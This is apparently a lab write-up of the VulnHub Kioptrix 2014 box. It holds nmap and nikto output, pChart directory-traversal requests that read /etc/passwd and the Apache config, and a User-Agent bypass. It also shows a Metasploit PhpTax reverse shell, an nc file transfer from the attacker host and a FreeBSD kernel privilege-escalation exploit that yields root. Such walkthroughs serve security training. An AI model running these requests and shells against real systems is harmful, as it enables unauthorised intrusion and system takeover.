







# VulnHub: Kioptrix: 2014

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=78935822-f1ad-45eb-9979-d94d03ab8525

Target IP: 10.101.85.15

---


## Scanning and Enumeration

### Nmap

Scan all ports.

```
nmap -p- 10.101.85.15
```

Fail, I think firewall blocked me.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/05]
└─$ nmap -p- 10.101.85.15      
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-19 03:18 -0400
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.10 seconds
```

Try again with `-Pn`.

```
nmap -p- -Pn 10.101.85.15 
```

The SSH, HTTP and HTTP-Proxy are open.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/05]
└─$ nmap -p- -Pn 10.101.85.15 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-19 03:19 -0400
Nmap scan report for 10.101.85.15
Host is up (0.0026s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 107.63 seconds
```

---

### Nikto

Find vulnerability.

```
nikto -h http://10.101.85.15 
```

Based on Nikto ID 800132, the target might be vulnerable to a remote shell exploit.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/05]
└─$ nikto -h http://10.101.85.15 
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.101.85.15
+ Target Hostname:    10.101.85.15
+ Target Port:        80
+ Platform:           Linux/Unix
+ Start Time:         2026-05-19 03:27:30 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
+ ERROR: Failed to check for updates: 403
+ [999984] /: Server may leak inodes via ETags, header found with file /, inode: 67014, size: 152, mtime: Sat Mar 29 13:22:52 2014. See: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [600050] Apache/2.2.21 appears to be outdated (current is at least 2.4.66).
+ [600511] mod_ssl/2.2.21 appears to be outdated (current is at least 2.9.6) (may depend on server version).
+ [600595] OpenSSL/0.9.8q appears to be outdated (current is at least 3.6.0). OpenSSL 1.1.1w is current for 1.x and is supported via contract, and 3.0.12 for 3.0.x, and 3.1.4 for 3.1.x.
+ [600625] PHP/5.3.8 appears to be outdated (current is at least 8.5.1).
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [800132] /: mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell.
+ [800262] /: PHP/5.3 - PHP 3/4/5 and 7.0 are End of Life products without support.
+ [999990] OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE .
+ [000434] /: HTTP TRACE method is active and replies which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
```

---

### Web Reconnaissance

Inspecting target IP via web browser.




From the page source, I found a commented-out HTML meta refresh tag pointing to pChart2.1.3/index.php. This reveals that pChart version 2.1.3 is installed on the server.

```
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>

 <body>
  <h1>It works!</h1>
 </body>
</html>
```

---

## Exploitation

### Directory Traversal

I found the exploit for pChart 2.1.3 on Exploit-DB (EDB-ID: 31173).

```
https://www.exploit-db.com/exploits/31173
```

Intercept request by Burp Suite and access pChart.

```
http://10.101.85.15/pChart2.1.3/examples/index.php
```

Now, back to Burp Suit and send to the Repeater.



Test the exploit.

```
GET /pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd HTTP/1.1
```

It work and server is Apache/2.2.21 (FreeBSD).



Find default configuration file for Apache/2.2.21 (FreeBSD).

```
https://www.cyberciti.biz/faq/freebsd-apache-web-server-tutorial/
```

Default configuration file is /usr/local/etc/apache22/httpd.conf.

```
/usr/local/etc/apache22/httpd.conf
```

Burp Suit again.

```
GET /pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf HTTP/1.1
```

The configuration relies on a spoofable User-Agent header for authentication. Since Options Indexes is active, we can bypass this restriction and trigger a Directory Listing simply by changing our User-Agent to Mozilla/4.0.

```
&lt;/IfModule&gt;<br /><br />SetEnvIf&nbsp;User-Agent&nbsp;^Mozilla/4.0&nbsp;Mozilla4_browser<br /><br />&lt;VirtualHost&nbsp;*:8080&gt;<br />&nbsp;&nbsp;&nbsp;&nbsp;DocumentRoot&nbsp;/usr/local/www/apache22/data2<br /><br />&lt;Directory&nbsp;"/usr/local/www/apache22/data2"&gt;<br />&nbsp;&nbsp;&nbsp;&nbsp;Options&nbsp;Indexes&nbsp;FollowSymLinks<br />&nbsp;&nbsp;&nbsp;&nbsp;AllowOverride&nbsp;All<br />&nbsp;&nbsp;&nbsp;&nbsp;Order&nbsp;allow,deny<br />&nbsp;&nbsp;&nbsp;&nbsp;Allow&nbsp;from&nbsp;env=Mozilla4_browser<br />&lt;/Directory&gt;<br />
```

Check port 8080.

```
http://10.101.85.15:8080/
```

It's forbidden.



Now, use the User-Agent Switcher and Manager to change our User-Agent to Mozilla/4.0, then refresh the page.



Now, i can access the site.



This is PhpTax, but no further information was found.



---

### Metasploit

Open the Metasploit and search for PhpTax exploit module.

```
msfconsole
search phptax
```

It shows one module.

```
msf > search phptax

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/phptax_exec  2012-10-08       excellent  Yes    PhpTax pfilez Parameter Exec Remote Code Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/phptax_exec
```

Select the module.

```
use exploit/multi/http/phptax_exec
```

View available payloads.

```
show payloads
```

I think payload 6 is most stable for this target.

```
msf exploit(multi/http/phptax_exec) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_python             .                normal  No     Unix Command Shell, Reverse TCP (via Python)
   11  payload/cmd/unix/reverse_python_ssl         .                normal  No     Unix Command Shell, Reverse TCP SSL (via python)
   12  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   13  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   14  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

Set the payload, configure the parameters, and execute.

```
set payload 6
set RHOSTS 10.101.85.15
set RPORT 8080
set LHOST 10.101.55.75
set UserAgent Mozilla/4.0
run
```

Success! I got a reverse shell.

```
msf exploit(multi/http/phptax_exec) > run
[*] Started reverse TCP double handler on 10.101.55.75:4444 
[*] 10.101.85.158080 - Sending request...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo SQIzSbh4RvcA0fMr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Command: echo 5ber7t2XWwWkc6Lw;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "SQIzSbh4RvcA0fMr\r\n"
[*] Matching...
[*] A is input...
[*] Reading from socket B
[*] B: "5ber7t2XWwWkc6Lw\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 3 opened (10.101.55.75:4444 -> 10.101.85.15:45588) at 2026-05-20 03:34:52 -0400

[*] Command shell session 4 opened (10.101.55.75:4444 -> 10.101.85.15:15873) at 2026-05-20 03:35:16 -0400
whoami
www
```

---

## Privilege Escalation

### System Enumeration

The system runs FreeBSD 9.0-RELEASE, an old kernel known to be vulnerable to local privilege escalation.

```
uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

I found this exploit.

```
https://www.exploit-db.com/exploits/28718
```

Download it to Kali.

```
searchsploit -m 28718
```

---

### Exploit 28718

Create a listener on Kali to prepare the exploit transfer.

```
nc -nlvp 6666 -q 0 < 28718.c
```

Transfer the exploit to the target machine via the reverse shell.

```
nc 10.101.55.75 6666 > 28718.c
```

Compile and execute exploit.

```
gcc 28718.c -o hack
./hack
```

Now, I'm root.

```
gcc 28718.c -o a
28718.c:178:2: warning: no newline at end of file
./a
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!
whoami
root
```